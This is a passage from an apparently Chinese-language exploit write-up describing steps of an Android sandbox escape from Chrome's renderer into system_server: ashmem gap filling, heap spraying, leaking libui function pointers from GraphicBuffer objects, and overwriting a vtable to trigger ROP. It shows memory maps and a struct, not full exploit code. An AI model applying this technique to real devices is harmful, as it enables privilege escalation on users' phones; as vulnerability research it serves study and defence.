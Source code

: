 3.用ashmem内存填充未映射的空间：

```code
7f54400000-7f54600000 rw-s 00000000 00:04 31603      /dev/ashmem/360alpha1000 (deleted)
7f54600000-7f547ff000 rw-p 00000000 00:00 0         [anon:libc_malloc]
7f547ff000-7f549ff000 rw-s 00000000 00:04 31605       /dev/ashmem/360alpha1001 (deleted)  
//--->The gap is filled with the ashmem memory 360alpha1001
7f549ff000-7f54a00000 rw-s 001fe000 00:04 32783      /dev/ashmem/360alpha29 (deleted)
7f54a00000-7f54c00000 rw-s 00000000 00:04 32781      /dev/ashmem/360alpha28 (deleted)
7f54c00000-7f54e00000 rw-s 00000000 00:04 32779      /dev/ashmem/360alpha27 (deleted)
7f54e00000-7f55000000 rw-s 00000000 00:04 32777      /dev/ashmem/360alpha26 (deleted)
7f55000000-7f55200000 rw-s 00000000 00:04 32775      /dev/ashmem/360alpha25 (deleted)
``` 

4.喷堆，堆数据将被写入ashmem内存：

```code
7f54400000-7f54600000 rw-s 00000000 00:04 31603        /dev/ashmem/360alpha1000 (deleted)
7f54600000-7f547ff000 rw-p 00000000 00:00 0           [anon:libc_malloc]
7f547ff000-7f549ff000 rw-s 00000000 00:04 31605          /dev/ashmem/360alpha1001 (deleted)
//--->the heap manager believes the memory range from 0x7f547ff000 to 0x7f54800000 is still mongered by it and will allocate memory from this range, result in heap data is written to ashmem memory
7f549ff000-7f54a00000 rw-s 001fe000 00:04 32783        /dev/ashmem/360alpha29 (deleted)
7f54a00000-7f54c00000 rw-s 00000000 00:04 32781        /dev/ashmem/360alpha28 (deleted)
7f54c00000-7f54e00000 rw-s 00000000 00:04 32779        /dev/ashmem/360alpha27 (deleted)
7f54e00000-7f55000000 rw-s 00000000 00:04 32777        /dev/ashmem/360alpha26 (deleted)
7f55000000-7f55200000 rw-s 00000000 00:04 32775        /dev/ashmem/360alpha25 (deleted)
```

5.因为步骤3中填充的ashmem由system_server和render进程映射，system_server的堆的一部分可以被渲染进程读写，我们可以触发system_server分配一些[GraphicBuffer](https://android.googlesource.com/platform/frameworks/native/+/android-7.1.1_r58/include/ui/GraphicBuffer.h#41)在ashmem中的对象。由于GraphicBuffer是从ANativeWindowBuffer继承而来的，它有一个名为common的类型为android_native_base_t的成员，我们可以从ashmem内存中读取两个函数点（incRef和decRef），然后计算模块libui的基地址。在最新的Pixel设备中，Chrome的渲染进程仍然是32位进程，但是system_server是64位进程。所以我们必须泄露一些模块的ROP的基地址。现在我们有了libui的基地址，最后一步就是触发ROP。不幸的是，似乎incRef和decRef点没有被使用。修改它跳转到ROP是不可能的，但我们可以修改GraphicBuffer的虚拟表来触发ROP。

```code
typedef struct android_native_base_t
{
    /* a magic value defined by the actual EGL native type */
    int magic;

    /* the sizeof() of the actual EGL native type */
    int version;

    void* reserved[4];

    /* reference-counting interface */
    void (*incRef)(struct android_native_base_t* base);
    void (*decRef)(struct android_native_base_t* base);
} android_native_base_t;
```
 
6.触发一个GC来执行ROP
